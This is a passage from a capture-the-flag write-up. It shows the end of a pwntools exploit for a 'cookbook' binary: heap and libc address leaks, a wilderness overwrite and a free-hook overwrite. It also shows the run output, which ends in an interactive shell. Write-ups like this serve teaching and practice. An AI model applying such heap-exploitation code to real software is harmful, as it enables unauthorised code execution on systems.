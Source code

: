 ```
	target.sendline('R')
	recv()

	#Recieve some additional output that we didn't do earlier (unimportant for the exploit)
	recv()
	recv()
	recvc()

#Run the four function that make up this exploit
leakHeapadr()
leakLibcadr()
overwriteWilderness()
overwriteFreehook()

#Drop to an interactive shell
log.info("XD Enjoy your shell XD")
target.interactive()
```

and when we run it...

```
$	python exploit.py 
[+] Starting local process './cookbook': pid 9654
[*] Heap leak is: 0x84526d8
[*] Wilderness is at: 0x8453410
[*] Address of free: 0xf7580dc0
[*] Address of system: 0xf7549060
[*] Address of free hook: 0xf76c58b0
[*] Space from wilderness to freehook is : 0xef272490
[*] XD Enjoy your shell XD
[*] Switching to interactive mode

$ w
 15:29:54 up  3:39,  1 user,  load average: 1.32, 1.37, 1.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               11:52    3:38m  3:12   0.04s /bin/sh /usr/lib/gnome-session/run-systemd-session ubuntu-session.target
$ ls
58056c425dc617b65f94a8b558a4699fedf4a9fb      options
58056c425dc617b65f94a8b558a4699fedf4a9fb.tgz  peda-session-cookbook.txt
cookbook                      peda-session-dash.txt
core                          peda-session-ls.txt
exploit.py                      readme.md
Ingredient struct                  recipe_struct
libc.so.6                      try.py
```

Just like that, we popped a shell!
